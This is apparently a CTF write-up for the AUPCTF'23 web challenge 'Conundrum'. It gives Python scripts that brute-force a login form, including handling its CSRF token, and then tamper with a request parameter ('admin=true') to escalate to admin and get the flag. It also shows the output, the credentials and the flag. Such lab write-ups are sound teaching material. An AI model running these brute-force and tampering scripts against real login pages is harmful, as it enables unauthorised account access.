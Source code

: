 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-25'
tags: ['web', 'aupctf', 'brute-force', 'csrf']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](/static/writeups/aupctf/web/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](/static/writeups/aupctf/web/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](/static/writeups/aupctf/web/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](/static/writeups/aupctf/web/conundrum_request.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists:
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:

![Login Success](/static/writeups/aupctf/web/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](/static/writeups/aupctf/web/conundrum_burp.png)
![Flag](/static/writeups/aupctf/web/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```
